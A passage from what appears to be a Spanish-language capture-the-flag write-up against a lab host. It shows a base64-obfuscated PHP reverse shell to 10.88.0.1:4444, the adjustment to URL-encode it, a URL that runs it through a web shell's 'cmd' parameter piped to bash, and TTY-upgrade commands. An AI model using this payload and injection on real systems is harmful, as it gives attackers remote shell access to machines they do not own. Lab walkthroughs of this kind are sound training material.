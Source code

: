 `Antes`

~~~ bash
cGhwIC1yICckc29jaz1mc29ja29wZW4oIjEwLjg4LjAuMSIsNDQ0NCk7ZXhlYygiL2Jpbi9iYXNoIDwmMyA+JjMgMj4mMyIpOyc=
~~~

![[Pasted image 20241105234140.png]]


`Después`

~~~ bash
cGhwIC1yICckc29jaz1mc29ja29wZW4oIjEwLjg4LjAuMSIsNDQ0NCk7ZXhlYygiL2Jpbi9iYXNoIDwmMyA%2BJjMgMj4mMyIpOyc=
~~~

![[Pasted image 20241105234108.png]]

Ahora con este pequeño cambio deberíamos poder establecer una `shell` sin problemas

~~~ bash
http://bruteshock.local/pruebasUltraSecretas/exec.php?cmd=echo%20%22cGhwIC1yICckc29jaz1mc29ja29wZW4oIjEwLjg4LjAuMSIsNDQ0NCk7ZXhlYygiL2Jpbi9iYXNoIDwmMyA%2BJjMgMj4mMyIpOyc=%22%20|%20base64%20-d%20|%20bash
~~~

![[Pasted image 20241105234657.png]]



# Escalada de privilegios
---
## Tratamiento TTY

Haremos el típico tratamiento de la TTY para operar de una forma más cómoda y poder hacer `Ctrl + C` y `Ctrl + L`

~~~ bash
export TERM=xterm
export SHELL=/bin/bash
script /dev/null -c bash
^Z

stty raw -echo;fg
reset xterm
~~~

![[Pasted image 20241105233905.png]]

Finalmente ajustamos las proporciones al tamaño de la terminal para poder tener una visualización más cómoda

~~~ bash
stty rows 44 columns 189
~~~
